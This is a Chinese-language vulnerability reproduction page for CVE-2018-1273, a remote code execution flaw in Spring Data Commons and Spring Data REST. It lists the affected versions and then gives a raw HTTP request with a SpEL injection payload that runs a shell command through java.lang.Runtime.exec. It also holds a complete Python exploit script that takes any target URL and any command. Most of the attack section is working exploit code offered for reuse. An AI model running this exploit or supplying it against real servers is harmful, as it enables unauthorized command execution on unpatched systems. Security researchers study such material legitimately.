 （CVE-2018-1273）Spring Data Commons组件远程代码执行漏洞
========================================================

一、漏洞简介
------------

攻击者可以构造恶意的请求对Spring Data
REST发起攻击，包括使用基于HTTP资源的，或者其他请求基于Spring Data's
projection负载结合的，最终导致远程代码执行攻击。

二、漏洞影响
------------

Spring Data Commons 1.13 - 1.13.10(Ingalls SR10)

Spring Data REST 2.6 - 2.6.10 (Ingalls SR10)

Spring Data Commons 2.0 - 2.0.5 (Kay SR5)

Spring Data REST 3.0 - 3.0.5 (Kay SR5)

三、复现过程
------------

    POST /users?page=&size=5 HTTP/1.1
    Host: localhost:8080
    Connection: keep-alive
    Content-Length: 124
    Pragma: no-cache
    Cache-Control: no-cache
    Origin: http://localhost:8080
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://localhost:8080/users?page=0&size=5
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：

![1.png](resource/(CVE-2018-1273)SpringDataCommons组件远程代码执行漏洞/media/rId24.png)

### poc

    cve-2018-1273_cmd.py
    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub
    # telegram:t.me/zhzyker

    import requests
    import sys

    if len(sys.argv)!=3:
        print('+----------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                       +')
        print('+      Spring Data Commons Remote Code Execution (No display)                +')
        print('+----------------------------------------------------------------------------+')
        print('+ USE: python3 cve-2018-1273_cmd.py <url> "<cmd>"                            +')
        print('+ EXP: python3 cve-2018-1273_cmd.py http://1.1.1.1:8080 "touch /tmp/exphub"  +')
        print('+ VER: Spring Data Commons 1.13 to 1.13.10                                   +')
        print('+      Spring Data Commons 2.0 to 2.0.5                                      +')
        print('+----------------------------------------------------------------------------+')
        sys.exit()
        
    url = sys.argv[1]
    cmd = sys.argv[2]
    vuln = url + "/users"  

    headers = {
        'Host': "localhost:8080",
        'Connection': "keep-alive",
        'Content-Length': "120",
        'Pragma': "no-cache",
        'Cache-Control': "no-cache",
        'Origin': "http://localhost:8080",
        'Upgrade-Insecure-Requests': "1",
        'Content-Type': "application/x-www-form-urlencoded",
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36",
        'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
        'Referer': "http://localhost:8080/users?page=0&size=5",
        'Accept-Encoding': "gzip, deflate, br",
        'Accept-Language': "zh-CN,zh;q=0.9,en;q=0.8"
        }
        
    payload = "username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('%s')]=&password=&repeatedPassword=" % cmd

    try:
        r = requests.post(vuln, data=payload, headers=headers)
        if r.status_code == 500:
            print ("[+] Code executed successfully")
        else:
            print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
    except:
        print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
